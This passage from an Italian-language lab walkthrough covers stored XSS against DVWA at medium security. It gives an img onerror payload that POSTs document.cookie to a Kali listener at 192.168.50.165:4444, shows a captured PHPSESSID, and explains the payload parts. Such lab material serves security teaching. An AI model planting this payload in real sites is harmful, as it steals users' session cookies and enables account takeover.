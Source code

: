 3. **Inserisci il Payload Alternativo**:
   Poiché `<script>` potrebbe essere filtrato, utilizza il seguente payload:
   ```html
   <img src="nonexistent.jpg" onerror="fetch('http://192.168.50.165:4444', {method: 'POST', body: document.cookie})">
   ```

4. **Esegui il Payload**:
   - Invia il payload premendo **Submit**.
   - Ogni volta che un utente carica la pagina, l'evento `onerror` si attiverà e invierà i cookie al server di ascolto.

5. **Verifica i Cookie su Kali Linux**:
   - Controlla il terminale e verifica i cookie ricevuti:
     ```
     PHPSESSID=abcdef1234567890; security=medium
     ```

![XSSMedium](./Screenshots/XSSMedium.png)

## 📌 **Spiegazione dei Payload**

### **Payload in Modalità Low**
- `<script>`: Inietta uno script JavaScript nella pagina vulnerabile.
- `document.cookie`: Recupera i cookie della sessione della vittima.
- `fetch`: Invia i cookie al server dell'attaccante tramite una richiesta HTTP POST.
